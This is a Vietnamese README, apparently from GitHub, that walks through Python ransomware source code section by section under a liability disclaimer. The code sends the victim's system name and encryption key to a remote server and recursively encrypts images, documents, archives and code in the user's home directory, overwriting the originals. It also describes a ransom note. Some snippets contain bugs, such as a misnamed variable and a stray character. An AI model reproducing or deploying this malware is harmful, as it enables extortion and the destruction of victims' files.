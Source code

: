  ### Chúng tôi không chịu trách nhiệm về các hành vi vi phạm pháp luật của các cá nhân hay tổ chức sử dụng trái phép mã nguồn mở này!
 # RANSOMWARE
 *Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.*
 ## SERVER
 - **1.** *Import các thư viện cần thiết: Chương trình sử dụng các thư viện như **os, sys, time, pathlib, socket** để thực hiện các chức năng liên quan đến tạo, mã hóa và gửi dữ liệu qua mạng.*

 ## ENCRYPT
 - **Class Ransomware:**
 *Đây là lớp chính của chương trình ransomware. Chứa các phương thức và thuộc tính để tạo kết nối đến máy chủ cũng như mã hóa các tệp trên hệ thống.*

 - **__init__:**
  *Khởi tạo các biến cần thiết như địa chỉ IP và cổng máy chủ, khóa riêng tư (Private) được tạo từ **Fernet**.*
 ```python
def __init__(self, host: str, port: str) -> None:
    self.host = host
    self.port = port
    self.server = socket(AF_INET, SOCK_STREAM)  # Tạo socket kết nối TCP
    self.key = Fernet.generate_key()  # Tạo khóa bí mật ngẫu nhiên
    self.Private = Fernet(self.key)  # Tạo đối tượng Fernet với khóa bí mật
    self.system = os.uname().sysname  # Lấy tên hệ thống
 ```

 - **ConnectServer:**
  *Kết nối đến máy chủ với số lần thử lại tối đa là 3. Nếu kết nối thành công, gửi thông tin hệ thống và khóa đến máy chủ. Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình.*
 ```python
def ConnectServer(self, connected=False) -> None:
    retries = 0
    while not connected and retries < 3:
        try:
            # Kết nối đến máy chủ với địa chỉ và cổng đã cung cấp
            self.server.connect((self.host, self.port))
            # Gửi thông tin hệ thống và khóa đến máy chủ
            self.server.sendall(f'{self.system}|{self.key.decode("utf-8")}'.encode('utf-8'))
            connected = True
        except:
            # Tăng số lần thử lại và chờ 100 giây trước khi thử lại
            retries += 1
            if retries < 3:
                sleep(100)
            else:
                # Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình
                os.execv(sys.executable, [sys.executable] + sys.argv)
        finally:
            # Đóng kết nối sau khi thực hiện xong
            self.server.close()
 ```
 - **Encrypted:**
  *Mã hóa các tệp trên hệ thống. Nó lặp qua tất cả các tệp trong hệ thống, mã hóa chúng bằng cách đọc và ghi dữ liệu từng phần. Lặp qua tất cả các tệp trong thư mục đã chỉ định và mã hóa từng tệp.*
 ```python
def Encrypted(self):
   for _, files in self.listfiles().items():
        for file in files:
            temp_file = file + '.temp'
 ```
 *Mở tệp gốc để đọc và tệp tạm thời để ghi*
 ```python
 try:
   with open(file, 'rb') as original_file, open(temp_file, 'wb') as encfile:
      while True:
         # Đọc dữ liệu từ tệp gốc thành các phần nhỏ có kích thước 4 MB
         hunk = original_file.read(4096 * 1024)
         if not chunk:
            break
         # Mã hóa từng phần nhỏ kích thước khóa là 32
         enc_chunk = self.Private.encrypt(chunk, 32)[0]
         # Ghi phần nhỏ đã mã hóa vào tệp tạm thời
         encfile.write(enc_chunk)
      os.replace(temp_file, file)
 except:
      pass  # Bỏ qua bất kỳ ngoại lệ nào
 finally:
   #Nếu tệp tạm thời tồn tại, xóa nó
   if os.path.exists(temp_file): 
      os.remove(temp_file)
 ```

 - **Contact:**
  *Tạo một tệp văn bản chứa thông điệp yêu cầu thanh toán chuộc.* 

 - **Listfiles:** 
 *Liệt kê các tệp trên hệ thống và phân loại chúng dựa trên phần mở rộng.*

 *Các phần mở rộng tệp được chia thành các danh mục như sau.*
 ```python
def Listfiles(self) -> dict:
    exts = {
        'images': ['.jpg', '.png'],
        'documents': ['.txt', '.docx'],
        'others': ['.rar', '.zip', '.mp4'],
        'code': ['.java', '.py', '.pyc', '.html', '.css']
    }
 ```
 *khởi tạo với các khóa là các danh mục từ exts và giá trị là danh sách rỗng.*
 *Nó sẽ được sử dụng để lưu trữ các tệp theo danh mục.*
 ```python
    file_categories = {category: [] for category in exts}S
 ```
 *Từ điển này ánh xạ từng phần mở rộng tệp đến danh mục tương ứng của nó.*
 *Điều này giúp dễ dàng xác định danh mục của một tệp dựa trên phần mở rộng của nó.*
 ```python
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}
 ```
 *Sử dụng* **Path.home().rglob('**~**')** *để liệt kê tất cả các tệp trong thư mục home của người dùng*
 *Kiểm tra nếu entry là một tệp **entry.is_file()**.*

 *Lấy phần mở rộng của tệp **entry.suffix.lower()**, chuyển nó thành chữ thường và gán vào biến ext.*

 *Nếu ext có trong extcategory, thêm đường dẫn của tệp entry vào danh sách tương ứng trong file_categories.*
 
 *trả về các tệp đã được phân loại.*
 ```python
    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))
    return file_categories
 ```
 ### Chúng tôi không chịu trách nhiệm về các hành vi vi phạm pháp luật của các cá nhân hay tổ chức sử dụng trái phép mã nguồn mở này!
